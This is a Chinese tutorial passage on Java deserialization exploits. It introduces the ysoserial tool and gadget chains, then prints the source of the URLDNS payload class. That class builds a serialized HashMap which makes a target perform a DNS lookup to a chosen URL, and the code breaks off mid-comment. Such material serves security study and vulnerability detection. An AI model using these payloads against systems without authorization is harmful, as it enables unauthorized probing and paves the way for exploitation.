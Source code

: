 # ysoserial

在说反序列化漏洞利⽤链前，我们跳不过⼀个⾥程碑式的工具，ysoserial。

反序列化漏洞在各个语⾔⾥本不是⼀个新鲜的名词，但2015年Gabriel Lawrence (@gebl)和Chris
Frohoff (@frohoff)在AppSecCali上提出了利⽤Apache Commons Collections来构造命令执行的利用
链，并在年底因为对Weblogic、 JBoss、 Jenkins等著名应⽤的利⽤，⼀⽯激起千层浪，彻底打开了⼀片
Java安全的蓝海。

而ysoserial就是两位原作者在此议题中释出的⼀个工具，它可以让用户根据自己选择的利用链，生成反
序列化利用数据，通过将这些数据发送给目标，从而执行用户预先定义的命令。

利⽤链也叫“gadget chains”，我们通常称为gadget。如果你学过PHP反序列化漏洞，那么就可以将
gadget理解为⼀种方法，它连接的是从触发位置开始到执行命令的位置结束，在PHP⾥可能
是 __desctruct 到 eval ；如果你没学过其他语⾔的反序列化漏洞，那么gadget就是⼀种生成POC的
方法罢了。  

# URLDNS

URLDNS就是ysoserial中一个利用链的名字，但准确来说，这个其实不能称作"利用链"。因为其参数不是一个可以"利用"的命令，而仅为一个URL，其能触发的结果也不是命令执行，而是一次DNS请求。

虽然这个"利用链""实际上是不能"利用"的，但因为其如下的优点，非常适合我们在检测反序列化漏洞时使用：

- 使用Java内置的类构造，对第三方库没有依赖
- 在目标没有回显的时候，能够通过DNS请求得知是否存在反序列化漏洞

代码如下：

```java
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
```